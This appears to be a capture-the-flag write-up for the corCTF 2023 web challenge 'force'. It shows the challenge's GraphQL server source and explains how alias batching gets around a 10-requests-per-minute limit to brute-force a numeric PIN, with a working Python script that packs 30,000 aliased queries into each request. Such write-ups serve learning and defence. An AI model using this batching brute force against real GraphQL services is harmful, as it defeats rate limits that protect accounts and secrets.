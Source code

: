 # corCTF 2023

## Web/force

## Challenge Overview

`Description`: Unbreakable vault door!

![Index](./images/index.png)

We have been given a website with a query in it.

So first let's see the source code given.

```js
import fastify from 'fastify';
import mercurius from 'mercurius';
import { randomInt } from 'crypto';
import { readFile } from 'fs/promises';

const app = fastify({
    logger: true
});
const index = await readFile('./index.html', 'utf-8');

const secret = randomInt(0, 10 ** 5);

let requests = 10;

setInterval(() => requests = 10, 60000);

await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin !== secret) {
                    return 'Wrong!';
                }
                return process.env.FLAG || 'corctf{REDACTED}';
            }
        }
    },
    routes: false
});

app.get('/', (req, res) => {
    return res.header('Content-Type', 'text/html').send(index);
});

app.post('/', async (req, res) => {
    if (requests <= 0) {
        return res.send('no u');
    }
    requests--;
    return res.graphql(req.body);
});

app.listen({ host: '0.0.0.0', port: 4020 });
```
So it generates a random integer named `secret` from 0 to 100000 and if we send the query in the given format with pin matching the secret it will give us the flag but the problem is there are 100000 possibilities and we can't bruteforce also because we can send only 10 request per 60 seconds.

## Vulnerability Identification

So we have to find a way in which we can send different pins multiple times in the 1 post request.

There is a technique named `graphql-batching-attack` in which we can send multiple query in 1 post request as given below in image.

![Reference](./images/reference.png)

[Reference](https://lab.wallarm.com/graphql-batching-attack/)


## Exploiting the Vulnerability

So to exploit it we will be sending the query with 30000 flags each time with the below given python sctipt.

```python
import requests
import re

headers = {
    'Content-Type': 'text/plain;charset=UTF-8',
}
url = 'https://web-force-force-a2e5f8d6b3c3a1f9.be.ax/'

for i in range(4):
    query = ''
    print(f'trying from {i * 30000} to {(i + 1) * 30000 - 1}')  # Adjusted the loop range
    
    for x in range(i * 30000, (i + 1) * 30000):
        query += f'flag{x} : flag(pin: {x})\n'
    response = requests.post(url, headers=headers, data=f'{{{query}}}')
    
    if 'corctf{' in response.text:
        flag = re.search(r'corctf\{.*?\}', response.text)
        if flag:
            print(f"Found flag on : {flag.group(0)}") 
            break

```

## Obtaining the Flag

Hence after running the script we get the flag

![Flag](./images/flag.png) 

Flag: **corctf{S                T                  O               N                   K                 S}**

Thank You
